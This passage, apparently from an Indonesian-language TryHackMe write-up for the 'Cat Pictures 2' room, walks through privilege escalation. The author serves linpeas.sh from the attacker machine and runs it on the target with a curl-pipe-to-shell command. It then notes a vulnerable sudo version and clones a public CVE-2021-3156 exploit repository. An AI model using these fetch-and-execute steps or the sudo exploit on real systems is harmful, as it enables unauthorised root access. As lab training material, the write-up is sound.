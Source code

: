 ![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2023.JPG)

## Privilege Escalation
- Download file linpeas.sh di https://github.com/carlospolop/PEASS-ng/releases di local
- Serving file tersebut dengan python3 di terminal baru
```sh
python3 -m http.server 80
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2024.JPG)

- Download dan eksekusi file tersebut dengan tool `curl` di server
```sh
curl -L http://IP_tun0/linpeas.sh | sh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2025.JPG)

- Disini terdapat informasi bahwa server menggunakan sudo versi 1.8.21p2

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2026.JPG)

- Kita dapat memanfaatkan script di https://github.com/blasty/CVE-2021-3156 untuk mengeskalasi user root
- Download file tersebut ke local dengan git clone
```sh
git clone https://github.com/blasty/CVE-2021-3156.git
```
